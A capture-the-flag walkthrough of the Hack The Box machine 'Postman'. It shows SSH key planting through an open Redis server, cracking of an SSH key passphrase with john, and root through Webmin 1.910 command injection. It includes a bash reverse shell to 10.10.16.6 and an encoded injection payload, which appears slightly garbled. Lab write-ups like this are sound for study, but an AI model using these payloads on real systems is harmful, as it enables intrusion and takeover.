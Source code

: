 1,Recon
port scan
	22/tcp ssh`OpenSSH 7.6p1 Ubuntu 4ubuntu0.3`
	80/tcp http `Apache httpd 2.4.29`
	6379/tcp redis `Redis key-value store 4.0.9`
	10000/tcp http `MiniServ 1.910 (Webmin httpd)`
Check the services:
port 80: This is a introduction page, and by enumerating the web-content
```
There are only a few useful urls for us.
/css /images /js /upload
```
When we check them, it would redirect to file console:
![](images/Pasted%20image%2020240921090504.png)
But I can not find anything useful for us.

port 6379 redis
```
Redis is an open-source, in-memory data structure store, primarily used as a database, cache, and message broker. It supports various data structures such as strings, hashes, lists, sets, and sorted sets, among others. Redis is known for its high performance and supports operations like automatic persistence, replication, and clustering.
```

We can use `netcat` and `redis-cli` interact with redis.
```
I can interact with Redis just using nc. I can run keys to list the current keys:
nc 10.10.10.160 6379 
keys *
*0

This redis instance has nothing in it. I can add something:
10.10.10.160:6379> keys *
(empty array)
10.10.10.160:6379> incr wither
(integer) 1
10.10.10.160:6379> keys *
1) "wither"
```

port 10000 http:
This service for us, we have known its version `MiniServ 1.910 (Webmin httpd)`
![](images/Pasted%20image%2020240921090918.png)
We need to put this hostname into our hosts file.
Then we get a login page:
![](images/Pasted%20image%2020240921091106.png)

We don't have any credits, so let's come to check the version of the service and find something exploitable.
`Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)` 
From the exploit-db, but it seems need the valid credit.

Strategy for exploit redis
```
Since I can write to redis, I basically have almost arbitrary write on the file system as the user redis is running as by writing the database to a file with the save command. The reason it’s “almost arbitrary” is because I can’t cleanly write a file, but rather, I can write my content with junk on either side. But there are many file-based attacks on Linux that are robust to the extra junk. For example, writing an SSH key. sshd will ignore the junk lines, and process lines that have a public key in the authorized_keys file.

```

I can check the current directory for redis:
```
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis"
```

I can make that guess that this is likely the user that runs the redis server’s home directory. I can confirm that by changing the current directory to ./.ssh:
```
10.10.10.160:6379> config set dir ./.ssh
OK
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis/.ssh"
```

The fact that that command works indicates that directory exists, and which suggests this is a home directory for this user.
I'll add my `id_rsa.pub` to a file with some extra newlines before and after the key:
```
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > spaced_key.txt
```

```
Redis is going to write a binary database file into authorized_keys, where sshd is then going to open that file as an ASCII text file and read it line by line, looking for a public key that matches the private key being sent to it. The newlines will help make sure that the public key is on its own line in the file.
```

I can use the -x options in redis-cli which will “read the last argument from STDIN” to cat this file into redis-cli and set it’s value into the database:
```
cat spaced_key.txt | redis-cli -h 10.10.10.160 -x set wither
```

Next I’ll tell redis that the dbname is authorized_keys, and then save:
```
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
```

Now I can get a shell with SSH.

There is only one user `Matt` but we don't have permission to check anything of him.
But I found another one file in `/opt`: `id_rsa.bak` and we can read it directly.

Then of course we need to crack it. :)
```
ssh2john id_rsa > hash

john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa)     
1g 0:00:00:00 DONE (2024-09-21 09:34) 5.263g/s 1299Kp/s 1299Kc/s 1299KC/s comunista..comett
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Then we get the passphrase `computer2008`

Very sad, ssh login failed.
```
ssh -i id_rsa Matt@10.10.10.160      
Enter passphrase for key 'id_rsa': 
Connection closed by 10.10.10.160 port 22
```

Let's try `su Matt` and hope he use the same credit for his account.
(Thanks God !!!!!)

3,shell as root
Firstly I really like check `sudo -l` but very sadly, Matt could not do anything as root.
```
sudo -l
Sorry, user Matt may not run sudo on Postman.
```
Then I would continue check `.bash_history`
```
su root
mv SimpleHTTPPutServer.py /var/www/html/
mkdir server
mv server server/
mv server.py server/
cd server
```
I am very curious about the directory server.
```
SimpleHTTPPutServer.py
# python -m SimpleHTTPPutServer 8080
import SimpleHTTPServer
import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_PUT(self):
        print self.headers
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))


if __name__ == '__main__':
    SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```
But I have check the `netstate` and there is no port 8080 service.
```
netstat -ntlp
0.0.0.0:6379 redis
127.0.0.53:53 DNS
0.0.0.0:10000 webmin
0.0.0.0:22 ssh
```
In this place, I only did not check the service of port 10000.
Then use the `Matt:computer2008` credit we finally login in to the `webmin`
![](images/Pasted%20image%2020240921095321.png)
We have get the Webmin version `1.9.10`
We can try to use the previous poc `Webmin 1.910 - Remote Code Execution`
or run the exploit script from msf.

 It’s very common that webmin uses the system’s authentication.
 Matt does not have access to do much:
![](images/Pasted%20image%2020240921101655.png)

CVE-2019-12840 is described on Packet Storm as:
`https://github.com/KentVolt/Webmin-1.910-Exploit.git`
```
An arbitrary command execution vulnerability in Webmin 1.910 and lower versions. Any user authorized to the “Package Updates” module can execute arbitrary commands with root privileges.
```
It turns out that’s the one thing Matt can do!

The package updater is vulnerable to command injection through the u POST parameter. Click on System on the panel to the left, then click on Software Package Updates . Turn on Burp intercept and click on Update Select Packages .
![](images/Pasted%20image%2020240921102623.png)

A request to `/package-updates/update.cgi` should be intercepted, send this to Burp Repeater
and remove all the parameters. Add the following payload to the end of the request:
`u=acl%2Fapt&u=$(whoami)`

This should execute whoami before the apt update command. Once the page returns, scroll to the bottom to look at the output.
![](images/Pasted%20image%2020240921102721.png)
It's seen that the server tried to install a package named root , which was the output of `whoami` Similarly, a bash reverse shell can be executed.

the payload would be 
```
bash -c "bash -i >& /dev/tcp/10.10.16.6/443 0>&1"

In this place, every symbol need to encode with url encode
like '+' %2b,  '=' %3d.

u=acl%2Fapt&u=$(echo${IFS}YmFzaCAtYyAiYmFzaCAtaSA%2bcat JiAvZGV2L3RjcC8xMC4xMC4xNi42LzQ0MyAwPiYxIg%3d%3d|base64${IFS}-d|bash)
```

Of course, we can use the msf

Then we can get the root shell.
![](images/Pasted%20image%2020240921105610.png)
![](images/Pasted%20image%2020240921105518.png)

Then we can get the root shell.
